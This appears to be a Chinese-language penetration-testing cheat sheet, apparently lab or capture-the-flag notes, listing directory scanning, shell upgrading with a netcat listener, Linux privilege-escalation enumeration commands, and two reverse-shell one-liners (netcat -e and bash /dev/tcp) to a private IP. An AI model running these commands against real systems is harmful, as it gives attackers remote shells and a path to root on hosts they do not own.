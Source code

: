

## Windows

# 目录扫描

dirsearch -u 192.168.120.132 -e * -i 200

只显示状态码是200的

# 交互式shell

python -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo

export TERM=xterm-color

rlwrap nc -lvnp 443

# 手工枚举

whoami   /   id   /   who   /   w   /   last

uname -a(内存内核)   /   lsb_release -a   /   cat /proc/version   /   cat  /etc/issue   /   hostnamectl   /   ip addr   /   ip route   /   arp -a

sudo -l 看哪些是以root身份执行的

getcap -r / 2>/dev/null

cat /etc/passwd 看用户

cat /etc/crontab自动任务

ps -ef

ps -axjf

ps -aux

find / -perm -u=s -type f 2>dev/null

# 反弹shell脚本

"D:\信息安全\文件上传\fantan_shell.txt"

反弹shell语句：

```
1：
nc -nv 192.168.141.134 4444 -e /bin/bash
2：
bash -i >& /dev/tcp/192.168.141.134/4444 0>&1
```
